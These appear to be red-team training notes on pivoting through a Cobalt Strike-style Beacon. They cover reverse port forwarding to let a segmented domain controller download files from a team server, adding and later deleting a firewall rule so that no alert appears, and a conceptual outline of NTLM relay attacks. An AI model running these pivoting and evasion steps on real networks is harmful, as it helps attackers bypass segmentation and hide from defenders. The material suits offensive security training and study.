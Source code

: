 Redirects inbound traffic on a specific port to another IP and port. Allows machines to bypass firewall and other network segmentation restrictions to talk to nodes they're not allowed to (e.g. use the console of DC 2 to demonstrate that it does not have any outbound access to our team server):

    PS C:\Users\Administrator> hostname
    dc-2
    PS C:\Users\Administrator> iwr -Uri http://nickelviper.com/a
    iwr : Unable to connect to the remote server

Workstation 2 can, so can create a reverse port forward to relay traffic between DC 2 and the team server:

    beacon> rportfwd 8080 127.0.0.1 80
    [+] started reverse port forward on 8080 to 127.0.0.1:80

This binds port 8080 on Workstation 2.

    beacon> run netstat -anp tcp
    TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING

Traffic to port 8080 gets tunnelled back to the team server over the C2 channel. The team server relays the traffic to the forward host/port, then send the response back over Beacon. Then can download the file via this port forward:

    PS C:\Users\Administrator> iwr -Uri http://wkstn-2:8080/a

Windows firewall prompts with an alert when an application attempts to listen on a port that is not explicitly allowed. Allowing access requires LA privileges and clicking cancel will create an explicit block rule. So create an allow rule before the reverse port forward using either netsh or New-NetFirewallRule (adding/removing rules does not create a visible alert):

    beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080

Don't be lazy by disabling the firewall.

Delete the firewall rule later by its DisplayName:

    beacon> powershell Remove-NetFirewallRule -DisplayName "8080-In"

## NTLM Relaying

NTLM authentication uses a handshake between a client and server.  The high-level steps are as follows:

1. Client makes an authentication request to Server for a resource
2. Server sends a challenge to Client
3. Client encrypts the challenge using the hash of their password, and sends the encrypted response to Server
4. Server contacts a domain controller to verify the encrypted challenge

In an NTLM relay attack, an attacker intercepts or captures this traffic and impersonates the client against a service (e.g. a client attempts to connect to Service A, but the attacker intercepts the authentication traffic and uses it to connect to Service B as though they were the client).

Windows Server 2022 domain controllers enable "Network Server: Digitally sign communications (always)" to Enabled by default, so this doesn't work against them.
